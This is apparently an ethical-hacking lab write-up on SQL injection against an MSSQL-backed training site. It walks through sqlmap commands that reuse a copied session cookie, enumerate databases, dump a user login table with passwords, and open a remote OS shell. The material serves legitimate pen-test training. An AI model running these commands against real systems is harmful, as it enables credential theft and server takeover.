 - SQL injection is an alarming issue for all database-driven websites. An attack can be attempted on any normal website or software package based on how it is used and how it processes user-supplied data. SQL injection attacks are performed on SQL databases with weak codes that do not adequately filter, use strong typing, or correctly execute user input. This vulnerability can be used by attackers to execute database queries to collect sensitive information, modify database entries, or attach malicious code, resulting in total compromise of the most sensitive data.

- As an ethical hacker or pen tester, in order to assess the systems in your target network, you should test relevant web applications for various vulnerabilities and flaws, and then exploit those vulnerabilities to perform SQL injection attacks.
- SQL injection can be used to implement the following attacks:

	- **Authentication bypass**: An attacker logs onto an application without providing a valid username and password and gains administrative privileges
	- **Authorization bypass**: An attacker alters authorization information stored in the database by exploiting SQL injection vulnerabilities
	- **Information disclosure**: An attacker obtains sensitive information that is stored in the database
	- **Compromised data integrity**: An attacker defaces a webpage, inserts malicious content into webpages, or alters the contents of a database
	- **Compromised availability of data**: An attacker deletes specific information, the log, or audit information in a database
	- **Remote code execution**: An attacker executes a piece of code remotely that can compromise the host OS



### Perform an SQL Injection Attack on an MSSQL Database

- Microsoft SQL Server (MSSQL) is a relational database management system developed by Microsoft. As a database server, it is a software product with the primary function of storing and retrieving data as requested by other software applications—which may run either on the same computer or on another computer across a network (including the Internet).

- Here, we will use an SQL injection query to perform SQL injection attacks on an MSSQL database.

- An SQL injection query exploits the normal execution of SQL statements. It involves submitting a request with malicious values that will execute normally but return data from the database that you want. You can “inject” these malicious values in the queries, because of the application’s inability to filter them before processing. If the values submitted by users are not properly validated by an application, it is a potential target for an SQL injection attack.



### Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap

- sqlmap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features, and a broad range of switches—from database fingerprinting and data fetching from the database to accessing the underlying file system and executing commands on the OS via out-of-band connections.

- You can use sqlmap to perform SQL injection on a target website using various techniques, including Boolean-based blind, time-based blind, error-based, UNION query-based, stacked queries, and out-of-band SQL injection.

- In this task, we will use sqlmap to perform SQL injection attack against MSSQL to extract databases.
- In this lab, you will pretend that you are a registered user on the **http://www.moviescope.com** website, and you want to crack the passwords of the other users from the website’s database.
- Type **http://www.moviescope.com/** and press **Enter**. A **Login** page loads; enter the **Username** and **Password** as **sam** and **test**, respectively. Click the **Login** button.
- Once you are logged into the website, click the **View Profile** tab on the menu bar and, when the page has loaded, make a note of the URL in the address bar of the browser.
- Right-click anywhere on the webpage and click **Inspect Element (Q)** from the context menu.
- The **Developer Tools** frame appears in the lower section of the browser window. Click the **Console** tab, type **document.cookie** in the lower-left corner of the browser, and press **Enter**.
- Select the cookie value, then right-click and copy it. Minimize the web browser.
- Open Terminal
	> sudo su
	> cd
	> sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=" #copiedcookie" --dbs
	- In this query, **-u** specifies the target URL, **--cookie** specifies the HTTP cookie header value, and **--dbs** enumerates DBMS databases.
	- The above query causes sqlmap to enforce various injection techniques on the name parameter of the URL in an attempt to extract the database information of the **MovieScope** website.
	- If the message **Do you want to skip test payloads specific for other DBMSes? [Y/n]** appears, type **Y** and press **Enter**.
	- If the message **for the remaining tests, do you want to include all tests for ‘Microsoft SQL Server’ extending provided level (1) and risk (1) values? [Y/n]** appears, type **Y** and press **Enter**.
	- Similarly, if any other message appears, type **Y** and press **Enter** to continue.
	- sqlmap retrieves the databases present in the MSSQL server. It also displays information about the web server OS, web application technology, and the backend DBMS.
	- Now, you need to choose a database and use sqlmap to retrieve the tables in the database. In this lab, we are going to determine the tables associated with the database **moviescope**.

	> sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=" #copiedcookie" -D moviescope --tables ()
	- In this query, **-D** specifies the DBMS database to enumerate and **--tables** enumerates DBMS database tables.
	- The above query causes sqlmap to scan the **moviescope** database for tables located in the database.
	- sqlmap retrieves the table contents of the moviescope database and displays them.
	- Now, you need to retrieve the table content of the column **User_Login**.
	
	>  sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=" #copiedcookie" -D moviescope -T User_Login --dump (to dump all the **User_Login** table content)
	- sqlmap retrieves the complete **User_Login** table data from the database moviescope, containing all users’ usernames under the **Uname** column and passwords under the **password** column.


- Now to initiate an interactive shell
	> sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie=" #copiedcookie" --os-shell
	- In this query, **--os-shell** is the prompt for an interactive OS shell.
	- If the message **do you want sqlmap to try to optimize value(s) for DBMS delay responses** appears, type **Y** and press **Enter** to continue.
	- Once sqlmap acquires the permission to optimize the machine, it will provide you with the OS shell. Type **hostname** and press **Enter** to find the machine name where the site is running.
	- Type **TASKLIST** and press **Enter** to view a list of tasks that are currently running on the target system.
	- Following the same process, you can use various other commands to obtain further detailed information about the target machine.
		- To view the available commands under the OS shell, type **help** and press **Enter**.